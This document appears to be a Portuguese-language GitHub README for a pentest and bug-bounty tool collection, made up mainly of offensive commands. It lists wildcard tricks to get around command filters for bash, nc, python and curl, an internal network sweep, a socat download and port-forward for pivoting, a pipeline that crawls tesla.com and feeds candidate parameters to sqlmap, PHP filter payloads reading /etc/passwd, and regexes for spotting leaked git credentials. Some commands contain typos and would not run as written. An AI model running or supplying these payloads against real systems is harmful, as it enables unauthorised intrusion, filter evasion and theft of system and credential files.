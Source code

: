 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done < sqli.txt

<h1>Filters PHP</h1>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd</br>
php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=</br>
php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala</br>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd</br>

<h1>Git exposed credentias com regex</h1>
/ssh:\/\/.*:.*@.*target\.com/</br>
/ftp:\/\/.*:.*@.*taget\.com//</br>
/ssh:\/\/.*:.*@.*\.com/ NOT "git"/</br>
